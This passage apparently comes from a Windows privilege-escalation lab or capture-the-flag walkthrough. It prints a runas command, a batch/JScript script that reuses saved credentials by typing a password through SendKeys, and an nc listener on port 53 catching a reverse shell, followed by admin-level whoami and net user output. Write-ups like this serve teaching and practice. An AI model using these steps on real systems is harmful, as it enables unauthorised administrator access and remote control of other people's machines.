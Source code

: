 `C:\Windows\system32\runas.exe /user:<DOMAIN_NAME>\<username> "C:\Windows\system32\cmd.exe /c whoami"`

We can also leverage this to make it persistent with the credentials we've obtained from the target with this script:

`$ cat savecred.bat`

---

```
@if (@CodeSection == @Batch) @then
@echo off
start "" runas /savecred /user:%1 %2
CScript //nologo //E:JScript "%~F0"
goto :EOF
@end
WScript.CreateObject("WScript.Shell").SendKeys("<password>{ENTER}");
```

The syntax is for the batch script:

`C:\> savecred.bat <path_to_shell>`

- **Start a shell handler to listen for incoming connection.**

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.174.46.
Ncat: Connection from 10.10.174.46:49801.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
```

- **And you have successfully escalated to administrator user account.**

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin
C:\Windows\system32> net user %username%
net user %username%
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/19/2020 10:05:42 AM
Password expires             Never
Password changeable          8/19/2020 10:05:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/25/2022 6:30:17 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```